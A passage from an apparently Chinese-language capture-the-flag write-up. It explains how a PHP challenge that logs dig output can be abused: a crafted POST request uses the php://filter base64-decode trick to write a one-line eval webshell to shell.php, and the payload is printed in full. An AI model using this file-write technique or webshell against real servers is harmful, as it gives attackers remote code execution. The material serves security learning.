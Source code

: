 ```php
    $output = shell_exec($command);
    $output = htmlspecialchars($output, ENT_HTML401 | ENT_QUOTES);

    $log_name = $_SERVER['SERVER_NAME'] . $log_name;
    if(!in_array(pathinfo($log_name, PATHINFO_EXTENSION), 
      ['php', 'php3', 'php4', 'php5', 'phtml', 'pht'], true)) {
        file_put_contents($log_name, $output);
    }
    echo $output;
endif; 
?>
```

注意到有个 `escapeshellarg($domain)`，功能如下： 

1.确保用户只传递一个参数给命令
2.用户不能指定更多的参数一个
3.用户不能执行不同的命令

[利用/绕过 PHP escapeshellarg/escapeshellcmd函数](https://www.anquanke.com/post/id/107336)

`htmlspecialchars()`

- ENT_HTML401 - 默认。作为 HTML 4.01 处理代码。

- ENT_QUOTES - 编码双引号和单引号。

对于前头这些字符串

```
; &lt;&lt;&gt;&gt; DiG 9.9.5-9+deb8u15-Debian &lt;&lt;&gt;&gt; -t A -q
```

符合base64规范的字符是：

```
ltltgtgtDiG9959deb8u15DebianltltgtgttAq 
```

恰好是40位，为4的倍数，就不用管这个，只需要添加我们的字符串。因为插入的字符在中间，所以不能有 `=`

```php
POST / HTTP/1.1
Host: php
Upgrade-Insecure-Requests: 1

domain=PD9waHAgZXZhbCgkX0dFVFsnYyddKTs/Pg&log=://filter/write=convert.base64-decode/resource=shell.php/.
```

成功写入一句话

```php
<?php eval($_GET['c']);?>
```



## 4.easy - phplimit

